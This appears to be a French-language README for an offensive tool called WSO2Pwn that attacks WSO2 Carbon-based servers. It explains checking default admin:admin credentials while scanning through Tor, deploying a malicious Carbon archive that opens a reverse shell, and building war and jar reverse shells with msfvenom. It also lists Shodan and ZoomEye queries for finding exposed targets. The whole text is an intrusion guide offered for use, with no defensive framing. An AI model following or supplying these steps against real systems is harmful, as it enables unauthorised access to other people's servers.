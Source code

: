 # WSO2Pwn
check admin:admin (cred par défaut) sur les services type WSO2 (Identity, Entreprise Service Bus, Entreprise Integrator, Api Manager, ect..)
scan via tor en 127.0.0.1:9050

python WSOpwn.py -i dom -t 50


#Pour Pwn Entreprise Service Bus, Entreprise Integrator, IoT Server):

go IP:PORT/carbon et deploie une application carbon, le ZIP est une application Carbon (reverse shell)

il faut set l'ip, le port et le type de shell (/bin/bash, cmd.exe) dans pack_1.0.0.zip\HelloWorld_1.0.0\HelloWorld-1.0.0.xml
puis modifier l'extension en .car avant de déployer.

#Pour Pwn Api Manager, Governance Registry,  IoT Server  :

go IP:PORT/carbon et deploie une application war

msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > meh.war

#Pour pwn Application Server:

go IP:PORT/carbon et deploie une application jar

msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f jar > meh.jar

#recherche targets :

shodan:carbon

zoomeye: "Server: WSO2 Carbon Server"
